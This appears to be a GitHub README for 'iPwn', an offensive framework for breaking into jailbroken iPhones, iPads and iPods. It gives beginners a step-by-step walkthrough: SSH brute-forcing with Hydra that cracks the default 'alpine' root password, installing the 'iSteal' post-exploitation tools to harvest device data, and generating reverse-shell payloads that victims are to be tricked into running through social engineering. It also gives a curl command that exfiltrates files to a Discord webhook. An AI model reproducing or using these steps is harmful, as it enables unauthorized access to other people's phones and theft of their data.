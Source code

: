 # iPwn
A Framework meant for the exploitation of iOS devices.
![image](https://user-images.githubusercontent.com/78043996/119547132-ba00ee80-bd62-11eb-989a-1b9522ca6bd4.png)

<!> REMEMBER: THE IPHONE YOU ARE ATTEMPTING TO GET INTO USING THIS TOOL MUST BE JAILBROKEN <!>
# Status - ❌
This project is still being worked on. I'm adding more extensions and options for post-exploitation for harvesting Device information and other things. Im also working on a way to put a payload in a normal iOS tweak so that getting a reverse shell can be easier.

# Update logs
[6/2/21] - Added an extra menu for people that have their devices connected to their computer and want to tinker with them. Will be adding more to this soon.

[6/2/21] - Added 4 extra modules for the 'iSteal' post-exploitation tool. Also added an option to install the checkra1n jailbreak.

[5/25/21] - Added 8 extra modules for the 'iSteal' post-exploitation tool.

[5/25/21] - Added 2 extra modules for the 'iSteal' post-exploitation tool.

# Description/How to use [FOR NOOBIES!!!]
iPwn is a framework meant for exploiting and and gaining access to iOS devices. It also has an extension that is a mini-framework called 'iSteal' that is meant for post-exploitation (after you get access to the device). This description will walk you through the different ways and steps to get access to an iOS device and harvest information from it.

The first way of getting access to an iOS device. - SSH-Bruteforcing.

Most jailbroken iOS devices with Cydia come prepackaged with OpenSSH. And usually, the credentials are very weak or common, one of the most common passwords will be included in a wordlist that should be in your folder if you downloaded iPwn from my Github.

So lets begin! So first off, we'll start by running the script.
```
python main.py
```
Then, we are going to type in the 'brute' command. (If you want to type help and get familiar with the commands, you may do so.)
![image](https://user-images.githubusercontent.com/78043996/119564117-67313200-bd76-11eb-9acd-e80b952f138d.png)

Once we type in the 'brute' command. Type in 'help' to display all the available commands.
![image](https://user-images.githubusercontent.com/78043996/119564260-95167680-bd76-11eb-8adb-122e9455d47d.png)
Now, we are going to use the 'default' command to start SSH-Bruteforcing with a wordlist containing the most common passwords.
You will be asked to enter the targets IP address, please ensure you are entering the correct and vaild one, press enter, then move on with the next step.
![image](https://user-images.githubusercontent.com/78043996/119564509-deff5c80-bd76-11eb-9df7-a58df14cb08e.png)

<!> IF YOU ARE GETTING ERRORS, PLEASE MAKE SURE THAT HYDRA IS INSTALLED, YOU CAN INSTALL HYDRA WITH THE COMMANDS BELOW <!>
```
commands to install hydra:

sudo apt install hydra
sudo pacman -S hydra
```
Now back to the tutorial, if you have hydra installed on your PC, it should already be attempting to bruteforce. Just sit tight for about 20-40 seconds and if the device does use the default/common credentails supplied in the wordlist, then Hydra should give you a little message that shows the correct password.
![image](https://user-images.githubusercontent.com/78043996/119565382-deb39100-bd77-11eb-9081-c0a500acbf65.png)

As we can see, the correct password is 'alpine'. Now we can login into the phone by doing 'ssh root@ip_goes_here' on another terminal window. Once it prompts you for a password just enter in the password you got from Hydra.
![image](https://user-images.githubusercontent.com/78043996/119565646-35b96600-bd78-11eb-9602-09de842470b1.png)

Now we are logged in!

![image](https://user-images.githubusercontent.com/78043996/119565745-54b7f800-bd78-11eb-864e-60e569ab4dbc.png)

At this point we probably want to gather some information on the phone and control it, that will come later. Because first, we need to install some very important things. If you want to use SCP to transfer the setup file that automates everything then you may do so. The file is in /post-exploitation/post.sh.
Once you transfered the 'post.sh' file over to the iOS device, execute it by doing 'bash post.sh' and it should start installing and setting up the post exploitation tools that we will use.

<!> NOTE: THE COMMANDS BELOW WILL ONLY BE FOR THE PEOPLE THAT WANT TO INSTALL THE NECESSARY PACKAGES AND TOOLS MANUALLY <!>
```
run all these commands to setup/install everything thats needed:

apt install netcat
apt install python3
apt install nano
git clone https://github.com/0x1CA3/iSteal.git
```

Ok, so now that we have everything installed, we can go into the 'iSteal' folder and run the 'iSteal' post-exploitation script.
```
python3 post.py
```
<!> NOTE: Make sure when you try running python files, you run it using "python3" instead of "python" or "py" <!>

So now the script should be loaded, if you would like to use the 'help' command and look around, you may do so.
![image](https://user-images.githubusercontent.com/78043996/119568186-3c95a800-bd7b-11eb-9e3c-55c0dcdbefe1.png)

Now, we are going to use the 'list' command to show the available modules/options for post-exploitation.
![image](https://user-images.githubusercontent.com/78043996/119593903-d45dbb00-bda8-11eb-9dda-3f59b25b98b6.png)

<!> KEEP IN MIND: THERE WILL BE ALOT OF UPDATES ON THE POST-EXPLOITATION SCRIPT, AND MORE MODULES WILL BE ADDED, SO THIS IMAGE WILL BE UPDATED FOR THE SAKE OF BEING ACCURATE <!>

To use a module, simply do 'use specific/module'. Example: use modules/list_installed_default_apps

And as you can see, when we run that module, it shows us the installed default applications on the targets iOS device.
![image](https://user-images.githubusercontent.com/78043996/119568907-0e649800-bd7c-11eb-9f11-895a0db41a5b.png)


The second way to get access to an iOS device. - Reverse shell.

Now, im going to show you how to do it the second way, which is a little more advanced. Keep in mind, I wont include pictures for this part.
```
run the iPwn framework by doing 'python main.py'
type in the 'payload' command
wait for the payload factory to load.
select a payload of your choice, Example: use payloads/factory/reverse_bash
enter your IP
enter your Port
then you should get a message that says 'payload generated'
type in the 'back' command to go back to the main menu
type in the 'listen' command to start listening for incoming connections
make sure that your victim runs the script via terminal or throught their own way, try social engineering, be creative!
once the script is executed on the victims iOS device, you should get a connection
install the important packages via transferring the 'post.sh' located in /post-exploitation and executing it, or manually do it yourself.
you can now run the 'iSteal' or 'AutoEnum' post-exploitation tools
have fun! :)
```
<!> If you are doing step 2 and get stuck on the part where you have to install the important packages/tools, go into step 1 and copy the guide for installing the packages/tools! <!>

# File transfer/Extraction
There's multiple ways to transfer files to the iOS device and there's also lots of ways to download them. The easiest way to extract and download files from the iOS device is to use Curl and a discord webhook.

<!> NOTE: The segment below will demonstrate how to extract and download files from the iOS device using curl <!>

```
Step 1: Create a discord server
Step 2: Create a webhook and copy the link
Step 3: On the iOS device, navigate towards the directory that contains the file you want to retrieve.
Step 4: enter the command below (replace file_here.txt with the name of your file, replace webhook_url_here with your webhook url)

curl -i -H 'Expect: application/json' -F file=@file_here.txt -F 'payload_json={ "wait": true, "content": "", "username": "" }' webhook_url_here

Step 5: wait around 10-50 seconds
Done! The file should now be uploaded to your discord server. You can now download/view the file.
```

# Tested OS's
```
Windows 10 - Stable
Garuda Linux - Stable
Arch based distros - Stable
```

# Supported and tested iOS devices
```
Supported Devices [The post-exploitation extension should work for all of these]
-----------------
iPods newer than the 4th Gen iPod
iPhone 4
iPhone 4S
iPhone 5
iPhone 6
iPhone SE
iPhone 7
iPhone 7+
iPhone 8
iPhone 8+
iPhone X
iPhone XR
iPhone XS
iPhone 11
iPhone 12

My own tested devices [Ones I myself have personally tested]
---------------------
iPhone 4S
iPhone 5S
iPhone SE
iPhone 7+
iPad Air
iPod 4th Gen
```

# Screenshots
![image](https://user-images.githubusercontent.com/78043996/119547477-2845b100-bd63-11eb-96bb-f01106e833b6.png)
![image](https://user-images.githubusercontent.com/78043996/119548701-7909d980-bd64-11eb-9adf-774cc787586e.png)
![image](https://user-images.githubusercontent.com/78043996/119549700-7f4c8580-bd65-11eb-8131-0f261883df45.png)
![image](https://user-images.githubusercontent.com/78043996/119549828-a3a86200-bd65-11eb-831e-5de71ea65323.png)

# Credits
[https://github.com/0x1CA3]
